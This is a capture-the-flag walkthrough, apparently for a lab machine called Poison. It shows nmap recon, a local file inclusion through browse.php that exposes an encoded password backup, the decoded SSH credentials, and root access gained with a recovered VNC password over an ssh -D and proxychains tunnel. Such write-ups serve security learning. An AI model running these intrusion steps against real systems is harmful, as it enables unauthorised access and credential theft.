








# Poison

## Machine Info



## Recon

- nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.1-STABLE (97%), FreeBSD 11.1-RELEASE or 11.2-STABLE (96%), FreeBSD 11.2-RELEASE - 11.3 RELEASE or 11.2-STABLE (96%), FreeBSD 11.3-RELEASE (96%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.1-RELEASE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 12.0-RELEASE - 13.0-CURRENT (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

- path recon, `http://10.10.10.84/browse.php?file=`

## Foothold

### Pass File Inclusion

- **LFI** POC



- http://10.10.10.84/browse.php?file=listfiles.php

```php
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```

- http://10.10.10.84/browse.php?file=pwdbackup.txt -> encoded password file -> **hint**: 13 times of what [?] -> base64

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

- base64 decoding 13 times -> `Charix!2#4%6&8(0`
- ssh conn, `charix:Charix!2#4%6&8(0`



## Privilege Escalation

### charix -> root

- find a zip file, `secret.zip` -> unzip secret.zip with password: `Charix!2#4%6&8(0`



- decode vnc password, [trinitronx/vncpasswd.py: A Python implementation of vncpasswd, w/decryption abilities & extra features ;-) (github.com)](https://github.com/trinitronx/vncpasswd.py); When know this is a password of vncserver at this point? -> after enumerating process in this machine



- process and port enum
  - smmsp -> nothing to use
  - Xvnc





```bash
charix@Poison:~ % ps aux | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    18:35     0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

- vnc server info: 5901 port, root priv
- port forwarding and vncviewer conn: **ssh -D** and **proxychains**

```
-D [bind_address:]port
   Specifies a local “dynamic” application-level port forwarding.  This works by allocat‐
   ing a socket to listen to port on the local side, optionally bound  to  the  specified
   bind_address.  Whenever a connection is made to this port, the connection is forwarded
   over  the secure channel, and the application protocol is then used to determine where
   to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols  are
   supported,  and  ssh  will  act  as  a SOCKS server.  Only root can forward privileged
   ports.  Dynamic port forwardings can also be specified in the configuration file.

   IPv6 addresses can be specified by enclosing the address in square brackets.  Only the
   superuser can forward privileged ports.  By default, the local port is bound in accor‐
   dance with the GatewayPorts setting.  However, an explicit bind_address may be used to
   bind the connection to a specific address.  The bind_address of “localhost”  indicates
   that the listening port be bound for local use only, while an empty address or ‘*’ in‐
   dicates that the port should be available from all interfaces.
```

VNC connection procedures:

- `ssh -D 9050 charix@$IP`
- `proxychains vncviewer 127.0.0.1:5901 -passwd secret`, **/etc/proxychains4.conf**:

```
[ProxyList]
socks4  127.0.0.1 9050
socks5  127.0.0.1 9050
```



## Exploit Chain

path recon -> LFI -> encoded file -> decode multiple times -> ssh cred -> charix shell -> secret file found and unzip -> vnc cred -> process & port enum -> vnc service found -> proxychains + ssh -D -> root shell

